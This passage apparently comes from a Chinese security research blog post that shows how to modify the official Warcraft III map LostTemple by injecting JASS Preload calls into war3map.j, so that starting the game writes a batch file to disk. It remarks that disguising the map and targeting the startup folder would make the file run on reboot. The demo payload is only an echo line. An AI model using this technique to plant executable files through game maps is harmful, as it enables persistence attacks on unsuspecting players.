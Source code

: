 ```
```


测试成功


### 2、手动修改官方地图LostTemple


(1) 获得源文件

使用HkeW3mModifier打开官方地图`(4)LostTemple.w3m`，导出war3map.j

(2) 添加payload

根据上文对war3map.j中文件结构的分析，在`function Trig_Melee_Initialization_Actions`内添加如下代码：

```
call PreloadGenClear()
call PreloadGenStart()
call Preload("\n@echo Test\n")
call PreloadGenEnd("c:\\test\\test.bat")
```

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-11-22/3-2.png)


(3) 保存
保存war3map.j后，在HkeW3mModifier选择替换(添加)文件，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-11-22/3-3.png)



选择重压缩，保存地图文件，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-11-22/3-4.png)



(4) 测试

将地图置于Maps文件夹下，进入游戏，地图被识别，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-11-22/4-1.png)

**注：**
为便于测试，已将地图名称修改为Test，覆盖原地图，迷惑性更大


开始游戏，c:\test\下产生文件test.bat，内容如下：

```
function PreloadFiles takes nothing returns nothing

  call Preload( "
@echo Test
" )
  call PreloadEnd( 0.0 )

endfunction
```
如果将该文件输出到开机自启动目录，那么在重启后，文件将会执行
